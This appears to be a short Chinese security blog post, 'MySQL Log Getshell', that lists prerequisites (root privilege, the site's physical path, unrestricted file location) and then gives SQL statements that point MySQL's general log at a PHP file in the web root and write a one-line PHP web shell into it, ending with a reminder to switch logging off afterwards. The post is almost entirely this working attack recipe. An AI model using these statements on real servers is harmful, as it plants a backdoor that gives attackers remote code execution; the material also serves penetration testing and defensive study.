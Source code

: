 ```yaml
---
title: "MySQL Log Getshell"
date: 2018-01-09T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


require:

- root权限.
- 网站物理路径.
- 文件位置未被限制.

<!--more-->

```
set global general_log = on;
set global general_log_file = 'F:/phpStudy/WWW/a.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

别忘了处理后事 (off).